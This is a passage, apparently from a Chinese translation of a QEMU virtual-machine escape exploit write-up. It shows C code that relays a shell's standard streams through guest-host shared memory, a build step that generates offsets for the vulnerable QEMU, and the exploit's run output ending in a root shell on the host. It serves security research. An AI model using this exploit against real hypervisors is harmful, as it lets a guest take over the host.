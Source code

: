 ```c
	err = malloc(sizeof(struct brwpipe));

	in->got = &got;
	out->got = &got;
	err->got = &got;

	in->fd = STDIN_FILENO;
	out->fd = STDOUT_FILENO;
	err->fd = STDERR_FILENO;

	in->ring = &shared_io->in;
	out->ring = &shared_io->out;
	err->ring = &shared_io->err;

	pthread_create(&t_in, NULL, pipe_fd2r, in);
	pthread_create(&t_out, NULL, pipe_r2fd, out);
	pthread_create(&t_err, NULL, pipe_r2fd, err);

	pthread_join(t_in, NULL);
	pthread_join(t_out, NULL);
	pthread_join(t_err, NULL);
}
```

上一节给出的图说明了共享内存和客户机、主机中运行的进程/线程。

exp 的目标是有漏洞版本的 QEMU，使用 4.9.2 版本的 gcc 编译。为了使 exp 适应特定的 QEMU，我们提供一个 shell 脚本（build-exploit.sh），它将输出一个带有所需偏移的 C 头文件：

```
$ ./build-exploit <path-to-qemu-binary> > qemu.h
```

运行完整的 exp（vm-escape.c）将会有下面的输出：

```
$ ./vm-escape
$ exploit: [+] found 190 potential ObjectProperty structs in memory 
$ exploit: [+] .text mapped at 0x7fb6c55c3620
$ exploit: [+] mprotect mapped at 0x7fb6c55c0f10
$ exploit: [+] qemu_set_irq mapped at 0x7fb6c5795347
$ exploit: [+] VM physical memory mapped at 0x7fb630000000
$ exploit: [+] payload at 0x7fb6a8913000
$ exploit: [+] patching packet ...
$ exploit: [+] running first attack stage
$ exploit: [+] running shellcode at 0x7fb6a89132d0
$ exploit: [!] enjoy your shell
$ shell > id
$ uid=0(root) gid=0(root) ...
```



### 5.4 - Limitations
